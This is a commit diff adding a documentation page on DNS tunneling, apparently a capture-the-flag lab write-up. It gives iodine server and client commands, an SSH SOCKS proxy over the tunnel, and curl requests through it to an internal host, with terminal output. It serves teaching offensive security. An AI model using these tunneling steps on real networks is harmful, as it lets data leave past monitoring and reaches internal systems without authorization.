

Before and after one commit to tymyrddin/red-hurdles, a Sphinx documentation site: the page built from source/docs/exfiltration/dns-tunnel.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/exfiltration/dns-tunnel.md
+++ b/source/docs/exfiltration/dns-tunnel.md
@@ -1 +1,60 @@
 # DNS tunneling
+
+This technique is also known as `TCP` over `DNS`, where an attacker encapsulates other protocols, such as HTTP
+requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS Tunneling establishes a
+communication channel where data is sent and received continuously.
+
+Star `iodined` server on the thm attacker host:
+
+    thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com
+    Opened dns0
+    Setting IP of dns0 to 10.1.1.1
+    Setting MTU of dns0 to 1130
+    Opened IPv4 UDP socket
+    Listening to dns for domain att.tunnel.com
+
+Start `iodine` client on the jump host:
+
+    thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
+    [sudo] password for thm:
+    Opened dns0
+    Opened IPv4 UDP socket
+    Sending DNS queries for att.tunnel.com to 127.0.0.11
+    Autodetecting DNS query type (use -T to override).
+    Using DNS type NULL queries
+    Version ok, both using protocol v 0x00000502. You are user #0
+    Setting IP of dns0 to 10.1.1.2
+    Setting MTU of dns0 to 1130
+    Server tunnel IP is 10.1.1.1
+    Testing raw UDP data to the server (skip with -r)
+    Server is at 172.20.0.200, trying raw login: OK
+    Sending raw traffic directly to 172.20.0.200
+    Connection setup complete, transmitting data.
+    Detaching from terminal...
+
+Start another terminal and jump to the attacker host. SSH over DNS:
+
+    thm@attacker:~$ sudo ssh thm@10.1.1.2 -4 -f -N -D 1080
+    [sudo] password for thm:
+    The authenticity of host '10.1.1.2 (10.1.1.2)' can't be established.
+    ECDSA key fingerprint is SHA256:Ks0kFNo7GTsv8uM8bW78FwCCXjvouzDDmATnx1NhbIs.
+    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
+    Warning: Permanently added '10.1.1.2' (ECDSA) to the list of known hosts.
+    thm@10.1.1.2's password:
+
+With this connection to the jump host over the `dns0` network, we can access resources:
+
+    thm@attacker:~$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
+    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
+    <html><head>
+    <title>404 Not Found</title>
+    </head><body>
+    <h1>Not Found</h1>
+    <p>The requested URL was not found on this server.</p>
+    <hr>
+    <address>Apache/2.4.41 (Ubuntu) Server at 192.168.0.100 Port 80</address>
+    </body></html>
+
+Get the flag:
+
+    thm@attacker:~$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php
```
